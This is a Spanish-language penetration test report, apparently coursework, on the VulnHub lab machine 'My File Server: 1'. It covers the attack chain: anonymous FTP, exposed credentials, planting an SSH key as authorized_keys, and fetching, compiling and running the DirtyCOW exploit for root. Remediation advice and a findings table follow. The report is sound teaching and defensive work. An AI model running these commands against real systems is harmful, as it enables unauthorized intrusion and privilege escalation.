Executive Summary (Resumen Ejecutivo)
Este informe documenta un ejercicio de pruebas de penetración de tipo caja negra realizado sobre la máquina vulnerable “My File Server: 1” (VulnHub), la cual simula un servidor de archivos corporativo. El objetivo fue identificar, explotar y documentar las debilidades de seguridad presentes, evaluando el nivel de exposición del sistema desde la perspectiva de un atacante externo con conocimiento limitado del entorno.
Durante el engagement se identificaron seis hallazgos de seguridad, dos de ellos de severidad crítica. La cadena de ataque partió de un servicio FTP con inicio de sesión anónimo habilitado, continuó con la exposición pública de credenciales válidas a través del servicio web, y culminó con una escalada de privilegios a nivel root mediante la explotación de la vulnerabilidad de kernel DirtyCOW (CVE-2016-5195), lo que permitió el compromiso total del sistema.
Desde una perspectiva de negocio, este nivel de exposición representa un riesgo alto: un atacante con acceso root a un servidor de archivos corporativo podría leer, modificar o eliminar cualquier documento almacenado, instalar puertas traseras persistentes, o utilizar el equipo como punto de pivote hacia el resto de la red interna. Se recomienda remediar los hallazgos críticos y altos en un plazo no mayor a 15 días hábiles.
Alcance (Scope)
Objetivo del engagement
Evaluar de forma controlada la postura de seguridad de la máquina “My File Server: 1”, identificando vulnerabilidades explotables en los servicios expuestos y determinando el impacto real que tendría su explotación en un entorno productivo.
Activo en alcance
| Elemento | Detalle |
|---|---|
| Nombre de la máquina | My File Server: 1 |
| Origen | https://download.vulnhub.com/myfileserver/My_file_server_1.ova |
| Dirección IP objetivo | 192.168.56.104 (red interna aislada) |
| Sistema operativo | CentOS Linux 7 (Core), kernel 3.10.0-229.el7.x86_64 |
| Tipo de prueba | Caja negra (black box), sin credenciales previas |
| Entorno de ataque | Kali Linux |
Limitaciones y reglas de compromiso
- La prueba se realizó exclusivamente en un entorno de laboratorio virtualizado y aislado; no se atacaron sistemas productivos.
- No se realizaron pruebas de denegación de servicio (DoS) intencionales.
- El alcance se limitó a la máquina víctima; no se evaluó la infraestructura de red circundante ni otros hosts detectados durante el descubrimiento.
- Toda evidencia (capturas de pantalla, salidas de comandos) fue recolectada durante la ejecución de las pruebas.
Metodología Aplicada
El ejercicio se condujo siguiendo las fases del Penetration Testing Execution Standard (PTES), complementado con prácticas de enumeración propuestas por OWASP para servicios expuestos. Esto garantiza un proceso repetible, trazable y alineado con estándares de la industria.
| Fase PTES | Objetivo | Herramientas utilizadas |
|---|---|---|
| 1. Reconocimiento | Identificar el host objetivo dentro de la red | netdiscover |
| 2. Enumeración | Descubrir puertos, servicios, versiones y recursos compartidos | nmap, ftp, smbmap, nikto, navegador web |
| 3. Análisis de vulnerabilidades | Correlacionar versiones de software con CVEs conocidos | Investigación manual, uname -a |
| 4. Explotación | Obtener acceso inicial al sistema | FTP anónimo, ssh-keygen, SSH |
| 5. Post-explotación / Escalada | Elevar privilegios hasta obtener control total (root) | Exploit DirtyCOW (CVE-2016-5195), gcc |
| 6. Reporte | Documentar hallazgos, impacto y remediación | Este informe |
Fases de Reconocimiento
Identificación de la dirección IP de la víctima
Se utilizó netdiscover en modo pasivo para escuchar tráfico ARP en la red local y así identificar los hosts activos sin generar tráfico intrusivo. El escaneo reveló múltiples dispositivos en el segmento 192.168.56.0/24, entre ellos un host con MAC asociada al fabricante “PCS Systemtechnik GmbH” (VirtualBox), correspondiente a la máquina víctima en la dirección 192.168.56.104.

$ sudo netdiscoverEscaneo de puertos y detección de versiones
Con la IP objetivo confirmada, se ejecutó un escaneo completo de puertos con Nmap utilizando el flag -sV para determinar la versión exacta de cada servicio, información indispensable para correlacionar vulnerabilidades conocidas más adelante.
$ nmap -p- 192.168.56.104 -sV
Posteriormente se ejecutó un escaneo agresivo (-A) para obtener detalles adicionales de cada servicio: scripts NSE, detección de sistema operativo y enumeración de RPC/NFS.
$ nmap -A 192.168.56.104

| Puerto | Servicio | Versión detectada |
|---|---|---|
| 21/tcp | ftp | vsftpd 3.0.2 (permite login anónimo) |
| 22/tcp | ssh | OpenSSH 7.4 (protocol 2.0) |
| 80/tcp | http | Apache httpd 2.4.6 (CentOS) |
| 111/tcp | rpcbind | RPC #100000 |
| 445/tcp | microsoft-ds | Samba smbd 4.9.1 (workgroup: SAMBA) |
| 2049/tcp | nfs | NFS 3/4 (RPC #100003) |
| 2121/tcp | ftp | ProFTPD 1.3.5 |
Enumeración
Servicio FTP (puerto 21)
Se intentó una conexión FTP estándar validando primero el acceso anónimo, funcionalidad que permite a cualquier usuario autenticarse sin credenciales válidas usando el usuario “anonymous”. Un segundo servicio FTP (ProFTPD) fue localizado en el puerto no estándar 2121; este también aceptó sesión anónima (“Anonymous access granted, restrictions apply”), aunque rechazó credenciales de usuarios del sistema como kali.
$ ftp 192.168.56.104
$ ftp 192.168.56.104 2121


Servicio SMB / Samba (puerto 445)
Se accedió al recurso compartido vía navegador y se enumeraron los recursos SMB con smbmap, herramienta que permite listar shares, permisos efectivos y comentarios asociados sin necesidad de credenciales válidas si el servidor permite sesiones nulas o de invitado.
$ smbmap -H 192.168.56.104

El resultado reveló un recurso llamado “smbdata” con permisos de lectura y escritura, así como un recurso llamado “smbuser”, cuyo nombre coincide con un patrón común de cuenta de servicio por defecto un indicio de configuración débil que motivó continuar la enumeración hacia el servicio web.
Servicio web (puerto 80)
Se utilizó Nikto para enumerar directorios, archivos sensibles y configuraciones inseguras del servidor Apache.
$ nikto -h 192.168.56.104

Al acceder directamente al archivo señalado por Nikto se encontró información de credenciales expuesta públicamente en el sitio web, sin ningún control de acceso:

Explotación
Con el acceso FTP anónimo y con escritura sobre el share “smbdata” confirmados, se diseñó una cadena de ataque para obtener una sesión interactiva por SSH sin necesidad de contraseña, abusando de la autenticación basada en llaves públicas.
Generación del par de llaves SSH
En la máquina atacante (Kali Linux) se generó un par de llaves ED25519 sin passphrase con ssh-keygen. La llave pública sería posteriormente entregada al servidor víctima.
$ sudo ssh-keygen
Entrega de la llave pública vía FTP anónimo
Se inició sesión FTP con el usuario recién descubierto (smbuser) y, dentro del directorio home del usuario, se creó la carpeta oculta .ssh. Acto seguido, se cargó el archivo id_ed25519.pub renombrándolo como authorized_keys, el nombre que OpenSSH espera para autenticación por llave pública. Es importante generar/usar la llave con el usuario normal (sin sudo), ya que el cliente FTP no tiene permisos para leer llaves propiedad de root.
$ ftp 192.168.56.104
Name: smbuser
ftp> mkdir .ssh
ftp> cd .ssh
ftp> put /home/kali/.ssh/id_ed25519.pub authorized_keys

Acceso inicial vía SSH
Con la llave pública ya instalada como credencial autorizada, se estableció una conexión SSH hacia el servidor utilizando la llave privada correspondiente, obteniendo una sesión de shell interactiva como el usuario smbuser sin necesidad de conocer o adivinar ninguna contraseña adicional.
$ ssh smbuser@192.168.56.104
Escalada de Privilegios
Identificación de la versión del kernel
Una vez dentro del sistema como usuario de bajos privilegios, el primer paso de post-explotación fue determinar la versión exacta del sistema operativo y del kernel para buscar vulnerabilidades locales de escalada de privilegios conocidas.
$ uname -a
La versión de kernel 3.10.0-229 (CentOS 7, compilado en 2015) corresponde a una rama afectada por CVE-2016-5195, conocida públicamente como “DirtyCOW”, una condición de carrera en el subsistema de memoria del kernel de Linux relacionada con el manejo de copy-on-write en mapeos de memoria privados de solo lectura.
Obtención y compilación del exploit
Se descargó el código fuente público del exploit DirtyCOW (40616.c) directamente en Kali desde el repositorio de GitHub. El primer intento falló por un error temporal de resolución de DNS; al reintentar, la descarga se completó correctamente.
$ wget https://raw.githubusercontent.com/SecWiki/linux-kernel-exploits/master/2016/CVE-2016-5195/40616.cDado que la máquina víctima no tiene salida directa a internet, se levantó un servidor HTTP temporal en Kali para servir el archivo dentro de la red host-only, y desde la sesión SSH ya establecida en la víctima se descargó el exploit apuntando a la IP de Kali en esa red.
# En Kali:
$ python3 -m http.server 8080
# En la víctima (sesión SSH):
$ wget http://192.168.56.101:8080/40616.c
$ gcc 40616.c -o upslp -pthread




Ejecución del exploit y obtención de shell root
Al ejecutar el binario compilado, el exploit realiza un respaldo del binario /usr/bin/passwd, explota la condición de carrera para sobrescribirlo con una versión modificada con el bit SUID, y finalmente entrega una shell con privilegios de root.
$ ./upslp
Con la shell de root obtenida, se confirmó el control total del sistema accediendo al directorio del superusuario y leyendo el archivo de prueba (flag) del CTF.
$ cd /root
$ ls
$ cat proof.txt

Análisis de Impacto (Modelo CIA)
Se evalúa el impacto de la cadena de vulnerabilidades explotada sobre los tres pilares de la seguridad de la información: Confidencialidad, Integridad y Disponibilidad.
| Dimensión | Nivel | Justificación |
|---|---|---|
| Confidencialidad | Alto | Exposición pública de credenciales, acceso a recursos compartidos sin autenticación fuerte y, tras la escalada, lectura de cualquier archivo del sistema (documentos, configuraciones, bases de datos locales). |
| Integridad | Alto | El acceso de escritura vía FTP/SMB permite modificar o sustituir archivos; el acceso root demostrado permite alterar binarios del sistema (se sobrescribió /usr/bin/passwd durante la explotación), configuraciones y registros. |
| Disponibilidad | Medio | No se ejecutaron ataques de denegación de servicio durante la prueba, pero el control root obtenido habilita a un atacante real a detener servicios, eliminar datos o desplegar ransomware, por lo que el riesgo latente es significativo. |
En conjunto, el nivel de riesgo del sistema se califica como CRÍTICO: la combinación de exposición de credenciales, servicios de transferencia de archivos mal configurados y un kernel sin parchear resultó en compromiso total (root) sin necesidad de técnicas sofisticadas.
Recomendaciones Técnicas
Remediación inmediata (0–15 días)
- Actualizar el kernel de CentOS a una versión parchada contra CVE-2016-5195 (kernel ≥ 3.10.0-327.36.3 o migrar a una versión con soporte activo) y establecer un proceso de gestión de parches periódico.
- Eliminar el archivo readme.txt (y cualquier otro archivo con credenciales o información sensible) del webroot de Apache; nunca almacenar contraseñas en texto plano accesibles públicamente.
- Deshabilitar el inicio de sesión anónimo en el servicio FTP (anonymous_enable=NO en vsftpd.conf) o, si es imprescindible, restringirlo estrictamente a solo lectura.
Corto plazo (15–30 días)
- Revisar y corregir los permisos de los recursos compartidos SMB, deshabilitando el acceso de invitado y aplicando el principio de mínimo privilegio por usuario/grupo.
- Forzar el uso de contraseñas robustas y rotación periódica para todas las cuentas de servicio (por ejemplo, smbuser).
- Restringir o aislar el servicio FTP para que no pueda escribir en directorios sensibles del sistema de archivos, incluyendo el directorio .ssh de los usuarios (uso de chroot_local_user o jaulas equivalentes).
- Deshabilitar el método HTTP TRACE en la configuración de Apache (TraceEnable off) para mitigar ataques de Cross-Site Tracing.
Mediano y largo plazo (30–90 días)
- Implementar un programa formal de gestión de vulnerabilidades con escaneos periódicos (por ejemplo, con Nessus u OpenVAS) y seguimiento de CVEs críticos.
- Adoptar el principio de defensa en profundidad: segmentación de red, firewall de host y monitoreo centralizado (SIEM) para detectar patrones de enumeración y exfiltración.
- Establecer una política de hardening de servidores (CIS Benchmarks) para servicios FTP, SMB y SSH, incluyendo deshabilitar servicios no utilizados como NFS y rpcbind si no son necesarios.
- Capacitar al personal de TI en buenas prácticas de configuración segura y gestión de secretos, evitando la publicación accidental de credenciales.
Tabla de Hallazgos
A continuación, se resumen todos los hallazgos identificados durante el engagement, ordenados de mayor a menor severidad.
| ID | Vulnerabilidad | Severidad | Evidencia | Impacto | Recomendación |
|---|---|---|---|---|---|
| H-01 | Exposición de credenciales en archivo público del servidor web (readme.txt) | Crítica | Fig. 6–7 · Nikto + navegador → /readme.txt | Credenciales válidas (smbuser) reutilizables en FTP, SMB y SSH; punto de entrada de toda la cadena de ataque. | Eliminar archivos sensibles del webroot; gestión segura de secretos y rotación de credenciales. |
| H-02 | Kernel Linux desactualizado vulnerable a DirtyCOW (CVE-2016-5195) | Crítica | Fig. 11–14 · uname -a + exploit 40616.c ejecutado como root | Escalada de privilegios de usuario local a root; compromiso total del sistema (C, I y D). | Actualizar el kernel a versión parchada; gestión periódica de parches y monitoreo de CVEs críticos. |
| H-03 | Acceso FTP anónimo con permisos de escritura (vsftpd 3.0.2) | Alta | Fig. 1–4 · nmap ftp-anon + conexión FTP anónima exitosa | Permite subir archivos arbitrarios al servidor, incluyendo la llave usada para pivotar a SSH. | Deshabilitar el login anónimo o limitarlo a solo lectura; aplicar mínimo privilegio en directorios. |
| H-04 | Recursos SMB con acceso de invitado y permisos de escritura (Samba 4.9.1) | Alta | Fig. 5 · smbmap muestra share “smbdata” en READ, WRITE | Permite enumeración de usuarios y modificación no autorizada de archivos compartidos. | Exigir autenticación, deshabilitar acceso invitado, revisar permisos por usuario/grupo. |
| H-05 | Escalada de acceso vía subida de llave pública SSH por FTP (encadenamiento) | Alta | Fig. 8–10 · mkdir .ssh + put authorized_keys + ssh login sin contraseña | Concede shell interactiva persistente sin necesidad de contraseña válida. | Restringir escritura del FTP sobre directorios de usuario (incl. .ssh); aislar el servicio en chroot. |
| H-06 | Método HTTP TRACE habilitado en Apache | Baja | Fig. 6 · Nikto reporta “HTTP TRACE method is active” | Podría facilitar ataques de Cross-Site Tracing (XST) combinados con XSS. | Deshabilitar TRACE en la configuración de Apache (TraceEnable off). |
Conclusión
El ejercicio sobre “My File Server: 1” demuestra cómo la combinación de configuraciones inseguras por defecto login anónimo en FTP, recursos SMB sin control de acceso adecuado, exposición de credenciales en texto plano y un kernel sin actualizar puede derivar en el compromiso total de un servidor sin necesidad de exploits sofisticados ni conocimientos avanzados de ingeniería inversa.
Desde la perspectiva de la asignatura, esta actividad refuerza el ciclo completo de un pentest (reconocimiento, enumeración, explotación y post-explotación) y evidencia la importancia de aplicar controles básicos de higiene de seguridad gestión de parches, mínimo privilegio y manejo adecuado de credenciales como primera línea de defensa frente a atacantes reales.
Referencias bibliográficas
- VulnHub. (s.f.). My File Server: 1. https://www.vulnhub.com/entry/my-file-server-1,375/
- MITRE. (2016). CVE-2016-5195 (DirtyCOW). https://nvd.nist.gov/vuln/detail/CVE-2016-5195
- SecWiki. (s.f.). linux-kernel-exploits CVE-2016-5195 (40616.c). https://github.com/SecWiki/linux-kernel-exploits
- The PTES Team. (s.f.). Penetration Testing Execution Standard. http://www.pentest-standard.org/
- Nmap Project. (s.f.). Nmap Reference Guide. https://nmap.org/book/man.html